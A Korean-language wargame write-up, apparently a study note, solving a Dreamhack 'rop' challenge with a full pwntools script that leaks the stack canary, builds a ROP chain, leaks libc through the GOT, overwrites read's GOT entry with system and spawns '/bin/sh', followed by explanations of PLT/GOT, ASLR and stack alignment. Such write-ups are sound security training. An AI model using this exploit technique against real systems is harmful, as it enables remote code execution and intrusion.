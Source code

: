 - **Return Oriented Programming(ROP)**: 리턴 가젯을 이용하여 복잡한 실행 흐름을 구현하는 기법. 문제 상황에 맞춰 공격자가 유연하게 익스플로잇을 작성할 수 있다.
- **GOT Overwrite**: 어떤 함수의 GOT 엔트리를 덮고, 해당 함수를 재호출하여 원하는 코드를 실행시키는 공격 기법

```python
from pwn import *
from pwn import p64
from pwn import u64

p = remote("host3.dreamhack.games", 23578)
e = ELF("./rop")
lib = ELF("./libc.so.6")

buf = b'A'*57 ########### Canary Leak Start
p.sendafter(': ', buf)
p.recvuntil(buf)
canary = u64(b'\x00'+p.recvn(7))
print('Canary:', hex(canary)) ########### Canary Leak End

read_plt = e.plt['read'] #pwntools의 ELF 명령어 링크 참고
read_got = e.got['read']
write_plt = e.plt['write']
pop_rdi = 0x400853 #ROPgadget --binary ./rop --re "pop rdi"
pop_rsi_r15 = 0x400851
ret = 0x400596 #ROPgadget --binary ./rop

payload = b'A'*56 + p64(canary) + b'B'*8 + p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(read_got) + p64(0) + p64(write_plt) #(1)payload to leak "addr of read()"
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(read_got) + p64(0) + p64(read_plt) #(2) payload of "read(0, read_got, ...)
payload += p64(pop_rdi) + p64(read_got+0x8) + p64(ret) + p64(read_plt) #(3) payload of "read("/bin/sh") == system("/bin/sh")"

p.sendafter(': ', payload)
read = u64(p.recvn(6)+b'\x00'*2) #(1) recieving "addr of read()"
lib_base = read - lib.symbols['read'] # addr of libc_base
system = lib_base + lib.symbols['system'] # addr of system()
print('read:', hex(read))
print('libc_base:', hex(lib_base))
print('system:', hex(system))

p.send(p64(system) + b"/bin/sh\x00") # (2), (3) send "addr of system()" to overwrite read_got through "read(0, read_got, 100)" & send "/bin/sh" to overwrite "read_got + 0x8"

p.interactive(
```

exploit

```bash

```

![rop.jpg](https://prod-files-secure.s3.us-west-2.amazonaws.com/38552da6-340d-42c1-a9a1-b181ff331f03/960d973f-6219-4982-a2f8-dca279417455/rop.jpg)

워게임환경과 vm의 환경이 맞지가 않아서 한 10번 시도한 끝에 겨우 성공.

수정하며 배운 것 정리

**[Remind]**

1) plt에는 got엔트리의 주소가 적혀있고 got에는 해당 함수의 실제 주소가 적혀있다.

2) ASLR이 적용되면 실행할 때마다 스택, 힙, libc_base의 주소가 바뀐다

**기본 설계]**

**1st) system 함수의 주소 계산:** 이 바이너리에서 호출하는 함수들은 "libc.so.6"에 정의되어 있다. 라이브러리 파일은 메모리에 매핑될 때 전체가 매핑되므로, system 함수도 프로세스 메모리에 같이 올라간다.

**But,** 바이너리가 system 함수를 직접 호출하지 않으므로, GOT에는 system 함수의 주소가 없다. 그러나, read, puts, printf, write 등의 함수는 GOT에 등록되어있다. **각 함수 사이의 offset은 항상 일정**하므로, 이 함수들과 system 함수와의 offset을 이용하여 system 함수의 주소를 구할 수 있을 것이다.

**2nd) "/bin/sh" 삽입:** rop 바이너리의 데이터 세그먼트에는 "/bin/sh" 문자열이 없다. 따라서 우리가 사용할 수 있는 방법엔 두 가지가 있다.

a) 이 문자열을 임의 버퍼에 직접 주입하여 잠조한다.

b) 다른 파일에 포함된 것을 사용한다.

(b) ex) "/bin/sh" 문자열의 주소도 system 함수의 주소를 계산할 때처럼 libc 영역의 임의 주소를 구하고, 그 주소로부터 거리를 더하거나 빼서 계산할 수 있다.

이번 실습에서는 (a)의 방법을 이용할 것이다.

**3rd) GOT Overwrite:** 함수를 호출하는 과정은 다음과 같다.

a) 호출할 라이브러리 함수의 주소를 프로세스에 매핑된 라이브러리에서 찾는다.

b) 찾은 주소를 GOT에 적고, 이를 호출한다.

c) 해당 함수를 다시 호출할 경우, GOT에 적힌 주소를 그대로 참조한다.

이때 **(c)에서 GOT에 적힌 주소를 검증하지 않고 참조**한다. -> GOT에 적힌 함수의 주소를 변조하면, 해당 함수를 호출했을 때 공격자가 원하는 함수를 실행시킬 수 있다. == **GOT Overwrite**

**[exploit 코드 설계]**

0) 바이너리에 적용된 보안 정책 확인

**1) Canary 우회**

**2) system 함수의 주소 구하기**

write함수를 이용하여 GOT에 적힌 read 함수의 주소를 출력하고, 그렇게 해서 구한 read 함수의 주소를 이용해 read 함수와 system 함수의 offset을 이용하여 system 함수의 주소를 계산한다.

이를 위해 pwntools의 ELF.symbols, ELF.plt, ELF.got 메소드 이용.

**3) "/bin/sh" 입력하기**

"/bin/sh"은 덮어쓸 GOT 엔트리 뒤에 같이 입력하면 된다. 이 바이너리에서는 "/bin/sh" 입력을 위해 read 함수를 이용할 수 있다.

**read, write 함수의 인자: rdi(=fd), rsi(=읽을 or 쓸 메세지), rdx(=메세지 길이)**

#main 함수의 에필로그 시점에서 rdx 값이 충분히 큰 값인 0x100으로 되어 있어, 여기선 리턴 가젯을 이용하여 굳이 rdx 값을 따로 설정해주지 않았음. 아래 사진 참고 (read() & write()의 인자 rdi(fd), rsi(buf), rdx(size))

**주의할 점은, 각 함수가 실행되는 시점에 stack이 0x10 단위로 align 되어있어야 한다는 것이다.**

**또한 read()의 주소를 leak할 때 write가 아닌 소스코드에 포함된 puts()나 printf()를 사용해도 좋다.**
